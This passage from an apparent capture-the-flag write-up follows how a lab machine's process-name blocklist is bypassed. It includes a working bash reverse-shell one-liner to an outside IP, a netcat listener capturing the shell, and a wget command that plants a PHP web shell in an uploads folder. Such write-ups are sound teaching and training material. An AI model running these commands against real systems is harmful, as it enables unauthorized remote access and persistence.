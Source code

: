    POSSIBLE INTRUSION BY BLACKLISTED PROCCESS nc         ...PROCESS KILLED AT 2020-08-23 07:31:14.127421
    POSSIBLE INTRUSION BY BLACKLISTED PROCCESS bash       ...PROCESS KILLED AT 2020-08-23 07:36:15.442945
    POSSIBLE INTRUSION BY BLACKLISTED PROCCESS nc         ...PROCESS KILLED AT 2020-08-23 07:37:29.782751
    POSSIBLE INTRUSION BY BLACKLISTED PROCCESS python     ...PROCESS KILLED AT 2020-08-23 07:41:12.786494



The times line up with when I was trying to get a reverse shell. It
seems something is killing processes, and based on the word "blacklist",
it seems likely that certain processes are being identified by process
name and killed. Both versions of Python, Netcat, `sh`, and Bash all
seem to be triggers.

### Shell

The problem with using blocklists on filenames as a defensive measure is
that it's not that hard for the attacker to make a copy of a binary and
give it a different un-blocklisted name.



    calamity> cp /bin/bash /dev/shm/0xdf
    calamity> chmod +x /dev/shm/0xdf
    calamity> /dev/shm/0xdf -c '/dev/shm/0xdf -i >& /dev/tcp/10.10.14.24/443 0>&1'



I get a shell at `nc`:



    root@kali# nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.27.
    Ncat: Connection from 10.10.10.27:47338.
    0xdf: cannot set terminal process group (1376): Inappropriate ioctl for device
    0xdf: no job control in this shell
    www-data@calamity:/var/www.md$



Alternatively, I can upload something like
[phpbash](https://github.com/Arrexel/phpbash). I can't write to the
webroot, but I can write to the `/uploads` folder:



    calamity> wget 10.10.14.24/phpbash.php -O uploads/df.php
    calamity> ls uploads
    df.php



It works:
